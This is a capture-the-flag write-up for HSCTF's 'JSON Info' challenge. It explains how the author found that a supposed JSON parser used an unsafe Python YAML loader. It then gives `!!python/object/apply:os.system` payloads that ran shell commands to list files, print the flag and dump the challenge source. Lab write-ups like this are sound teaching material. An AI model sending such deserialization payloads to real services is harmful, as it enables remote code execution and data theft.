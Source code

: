 # JSON Info

# Description:
Written by: cppio

> I made a simple program to analyze my JSON files.
>
> nc misc.hsctf.com 9999
>
> Note: You must send an EOF (normally Ctrl-D) to get a response. If netcat quits before showing any response, you may have to use socat.
>
> socat - tcp:misc.hsctf.com:9999
>
> Alternatively, try netcat's -q flag.
>
> nc -q 1 misc.hsctf.com 9999

# Solution:
- Connect to the given ip and port using netcat and try entering some input
![simple test](https://i.imgur.com/iYuAHvS.png)

At first glance it seems to work just fine and parse json correctly

- Try some invalid input and google some of the error messages, eventually you'll discover these are yaml parser errors
![error](https://i.imgur.com/gSVjaX1.png)

- Google `python yaml exploits` or `python yaml injection` and maybe find this [Talos intelligence report](https://www.talosintelligence.com/reports/TALOS-2017-0305)
- Try it out, `!!python/object/apply:os.system ["uname -a; ls"]`
![output](https://i.imgur.com/3ri5nuh.png)

works fine, so just get our flag (and the source code for the challenge) `!!python/object/apply:os.system ["cat flag.txt; cat json_info.py"]`
![output](https://i.imgur.com/RRonyIE.png)
